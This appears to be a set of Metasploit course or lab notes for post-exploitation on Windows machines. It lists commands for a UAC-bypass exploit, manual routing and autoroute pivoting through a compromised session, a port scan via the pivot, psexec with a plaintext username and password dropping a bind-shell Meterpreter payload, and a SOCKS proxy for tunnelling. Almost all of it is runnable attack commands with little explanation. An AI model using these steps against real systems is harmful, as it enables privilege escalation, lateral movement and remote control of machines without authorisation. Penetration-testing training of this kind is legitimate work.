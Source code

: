 ### Metasploit Command

```
search UAC
use exploit/windows/local/bypassuac_sdclt
set SESSION 9
set LHOST 192.168.119.4
run
```

Add a route to a network reachable through a compromised host manually

```
route add 172.16.5.0/24 12
route print
```

TCP port scan via the compromised machine

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.5.200
set PORTS 445,3389
run
```

The new shell on the target must be a bind shell, because a reverse shell payload would not be able to find its way back to our attacking system in most situations because the target does not have a route defined for our network

```
use exploit/windows/smb/psexec
set SMBUser luiza
set SMBPass "Bocci"
set RHOSTS 172.16.5.200
set payload windows/x64/meterpreter/bind_tcp
set LPORT 8000
run
```

As an alternative to adding routes manually, we can use the autoroute post-exploitation module to set up pivot routes through an existing Meterpreter session automatically. 

Remove the route we set manually

```
route flush
```

```
use multi/manage/autoroute
set session 12
run
```

We could now use the psexec module as we did before, but we can also combine routes with the `server/socks_proxy` auxiliary module to configure a SOCKS proxy. This allows applications outside of the Metasploit Framework to tunnel through the pivot on port 1080 by default.
